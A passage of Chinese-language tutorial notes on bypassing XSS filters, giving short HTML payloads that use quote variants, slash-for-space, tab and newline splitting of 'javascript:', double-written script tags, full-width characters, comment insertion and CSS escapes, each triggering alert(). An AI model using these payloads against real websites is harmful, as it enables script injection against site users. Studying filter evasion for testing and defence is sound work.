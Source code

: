 #### (2)引号的使用

* HTML对引号不敏感，但过滤函数对引号严格

  ```html
  <img src="#" onerror="alert(/xss/)" />
  <img src='#' onerror='alert(/xss/)' />
  <img src=# onerror=alert(/xss/) />
  ```

#### (3)左斜线代替空格

```html
<img src="#"/onerror="alert(/xss/)" />
```

#### (4)回车的使用

* 添加**水平制表符**和**回车符**来绕过关键字检测

```html
	
	<a href="javascript:alert(/xss/)">clike me</a> =>  
	<a href="j	a	v	a	s	c	r	i	p	t	:	alert(/xss/)">clike me</a>

<a href="j
         a
         v
         a
         s
         c
         r
         i
         p
         t
         :alert(/xss/)">clike me</a>
	<a href="javascript:alert(/xss/)">clike me</a>
```

* **一些函数不可以加回车**(onmoveover、onerror等)

#### (5)双写绕过

* 针对只做了**一次过滤**的情况

* ```html
  <script>alert(1)</script>	=>  <scr<script>ipt>alert(1)</scr</script>ipt>
  
  ```

#### (6)CSS中的变形



```html
a.使用全角字符
    "><img src="#" ｏｎｅｒｒｏｒ="alert(/xss/)" /><"
b.注释会被浏览器忽略
    "><img src="#"  oner/*~*/ror="alert(/x~s~s/)" /><"
c. 样式表中的[\]和[\0]
    "><style>@import 'javasc\ri\0pt:alert*(/xss/)';</style><"
```
